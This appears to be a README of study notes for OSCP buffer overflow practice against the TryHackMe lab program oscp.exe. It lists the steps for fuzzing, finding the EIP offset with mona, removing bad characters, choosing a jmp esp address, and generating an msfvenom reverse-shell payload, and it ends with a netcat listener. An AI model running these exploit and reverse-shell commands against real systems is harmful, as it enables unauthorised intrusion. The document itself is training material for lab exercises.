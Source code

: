 # oscp_bof-prep
Buffer Overflow preparation for OSCP

# Task: oscp.exe (OVERFLOW1)
# Fuzzing
1. Run fuzzer.py & make a note of the largest number of bytes that were sent
   * Crashed at 2000 bytes

# Crash replication & Controlling EIP
1. Generate a cyclic pattern of a length 400 bytes longer than the string that crashed the server (2000 + 400)
   * ./pattern_create.rb -l 2400

2. Copy the output and place it into the payload var of exploit.py
3. Restart the app in Immunity Debugger & Run exploit.py
4. While the unique buffer is on the stack, use mona's findmsp command with the distance arg. set to the pattern length (2400)
   * !mona config -set workingfolder c:\mona\%p
   * !mona findmsp -distance 2400


5. Set the offset var to this value in exploit.py(1978)
6. Set the payload var to an empty string
7. Set the retn var to “BBBB”
8. Restart the app in Immunity & Run exploit.py (EIP should be overwritten with 4 B's (e.g 42424242)


# Finding Bad Characters
1. Generate a bytearray with mona (& exclude null byte \x00 by default), note the location of bytearray.bin
   * !mona bytearray -b “\x00”
3. Generate an identical bytearray with bytearray.py
4. Update exploit.py and set the payload var to the string of badchars the script generates
5. Restart the app in Immunity & Run exploit.py, make note of the address to which ESP register points
   * !mona compare -f C:\mona\oscp\bytearray.bin -a [ESP]

5. Generate a new bytearray with mona, specifying the found badchars along with \x00 & Update payload var in exploit.py and remove the new badchars as well
   * !mona bytearray -b “\x00\x07\x08\x2e\x2f\xa0\xa1”
6. Restart app & Run exploit
7. Do this until results status returns “Unmodified”. This indicates that no more badchars exist.


# Finding a Jump Point
1. Run the following mona command with all the identified badchars (including \x00)
   * !mona jmp -r esp -cpb “\x00\x07\x08\x2e\x2f\xa0\xa1”


2. Choose an address and update exploit.py, setting the retn var to the address, written backwards (little endian).
   1) \x62\x50\x11\xaf -> \xaf\x11\x50\x62

# Generate Payload
1. msfvenom (LHOST=kali_vpn_ip, -b with all the identified badchars)
   * msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c
2. Update payload var in exploit.py

# Prepend NOPs
1. padding = “\x90” * 16

# Exploit
1. start netcat listener on attacker machine (nc -nlvp 4444)
2. Restart app in immunity & Run exploit.py

# Reference
* https://tryhackme.com/room/bufferoverflowprep
* https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst